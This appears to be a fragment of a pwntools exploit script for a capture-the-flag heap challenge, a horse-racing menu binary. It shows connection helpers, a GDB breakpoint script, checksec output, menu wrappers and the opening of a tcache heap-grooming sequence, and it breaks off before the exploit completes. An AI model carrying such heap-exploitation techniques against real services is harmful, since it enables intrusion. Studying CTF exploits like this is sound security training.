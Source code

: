 ```py
def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x00401c0c
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
# RUNPATH:  b'./'

def head_start(index, string, spot):
    io.sendlineafter(b"Choice: ", b"0")
    io.sendlineafter(b"Stable index # (0-17)? ", str(index).encode())
    io.sendlineafter(b"Enter a string of 16 characters: ", string)
    io.sendlineafter(b"New spot? ", str(spot).encode())

def add_horse(index, length, name):
    io.sendlineafter(b"Choice: ", b"1")
    io.sendlineafter(b"Stable index # (0-17)? ", str(index).encode())
    io.sendlineafter(b"Horse name length (16-256)? ", str(length).encode())
    io.sendlineafter(b"characters: ", name)

def remove_horse(index):
    io.sendlineafter(b"Choice: ", b"2")
    io.sendlineafter(b"Stable index # (0-17)? ", str(index).encode())

def race():
    io.sendlineafter(b"Choice: ", b"3")

io = start()

for i in range(0x8):
    add_horse(i, 0x17, b'a' * 0x17)

for i in range(0x8)[::-1]:
    remove_horse(i)

for i in range(0x6):
    add_horse(i, 0x17, b'\xff')

add_horse(0x6, 0x17, b'a' * 8 + b'\xff')
```